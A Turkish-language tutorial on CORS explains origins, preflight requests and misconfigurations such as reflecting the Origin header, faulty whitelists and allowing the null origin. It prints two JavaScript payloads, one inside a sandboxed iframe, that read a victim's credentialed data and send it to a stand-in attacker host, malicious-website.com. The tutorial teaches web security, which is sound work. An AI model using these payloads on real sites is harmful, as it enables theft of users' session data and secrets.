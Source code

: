 # CORS nedir?
CORS, SOP kısıtlamasını esnetmek için geliştirilmiş bir mekanizmadır. Tarayıcılar bir web uygulamasının kendi origin'i dışındaki bir origin'e doğrudan istek göndermesini engeller. Ancak bu günümüzde oldukça fazla gerekli olur (örnek: Frontend:example.com, API: api.example.com)

# Origin nedir?
Bir origin şu 3 parçadan oluşur:

- Protokol: `http`, `https`
- Host: `example.com`
- Port: `80`, `443`

**Örnek:**  
![alt text](image.png)

# Preflight Request Nedir?
Tarayıcının CORS kuralları kapsamında asıl isteği göndermeden önce hedef sunucudan izin alıp almadığını kontrol etmek için yaptığı bir OPTIONS isteğidir. Sunucu bu isteğe uygun Access-Control-Allow-* header'larıyla cevap verirse tarayıcı asıl isteği gönderir aksi halde işlem engellenir.

# Origin Header’ı Yansıtarak Dinamik ACAO Üretimi
Bazı uygulamalar, birden fazla domaine erişim izni vermek zorundadır. Bu genellikle gelen HTTP isteğindeki Origin header'ını okuyup bunu doğrudan yanıtta Access-Control-Allow-Origin header’ı olarak yansıtarak yapılır.

Aşağıdaki isteği ele alalım:
```http
GET /sensitive-victim-data HTTP/1.1  
Host: vulnerable-website.com  
Origin: https://malicious-website.com  
Cookie: sessionid=...  
```

Sunucu şu şekilde yanıt verirse:
```http
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: https://malicious-website.com  
Access-Control-Allow-Credentials: true  
...

Bu header’lar, isteğin geldiği domain olan malicious-website.com alanına erişim izni verildiğini, ayrıca çerez gibi kimlik doğrulama bilgileri içeren isteklerin de kabul edildiğini belirtir (Access-Control-Allow-Credentials: true). Bu, işlemin kullanıcının oturumunda gerçekleşmesini sağlar.

Bu uygulama, Access-Control-Allow-Origin header’ında herhangi bir Origin değerini yansıtıyorsa, herhangi bir domain, hedef uygulamadan veri okuyabilir hale gelir. Eğer yanıt, bir API anahtarı, CSRF token’ı ya da benzeri hassas veri içeriyorsa, saldırgan bunu kendi web sitesine koyacağı şu JavaScript ile kolayca elde edebilir:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

# Origin Header'larının Ayrıştırılmasında Hatalar
Bazı uygulamalar, birden fazla origin'e erişimi desteklemek için whitelist kullanır.

```http
Örneğin uygulama aşağıdaki gibi istek alır:
GET /data HTTP/1.1
Host: normal-website.com
Origin: https://innocent-website.com
```

Uygulama, gelen Origin değerini beyaz listedeki domain'lerle karşılaştırır ve eğer uygunsa aşağıdaki gibi yanıt verir:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://innocent-website.com
```

Ancak CORS whitelist mantığı uygulanırken sıkça hatalar yapılır. Bazı organizasyonlar, mevcut ve gelecekteki tüm alt domain’lere izin verecek şekilde yapılandırma yapar. Bu kurallar genellikle prefix, suffix veya regez ile tanımlanır. Bu yapılandırmanın yanlış uygulanması kontrol dışı domain'lere erişim izni verilmesine yol açabilir.

Prefix/Suffix tabanlı bypasslar ve URL manipülasyon teknikleri için:
https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet

Bazı uygulamalar, yerel geliştirme ortamlarını desteklemek amacıyla null origin değerine izin verebilir:
```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

Sunucu yanıtı aşağıdaki gibi verebilir:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Bu durumda, saldırgan farklı yollarla Origin: null içeren bir cross-origin istek oluşturabilir.

Aşağıdaki payload, bir data: URI’si içinde sandboxed iframe aracılığıyla null origin üretir ve hassas veriyi sızdırır:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
  location='malicious-website.com/log?key='+this.responseText;
};
</script>">
</iframe>
```

Bu teknikle Origin: null ile yapılan istek, sunucu tarafından kabul edilirse, oturum tanımlı isteklerle hassas veriler sızdırılabilir.---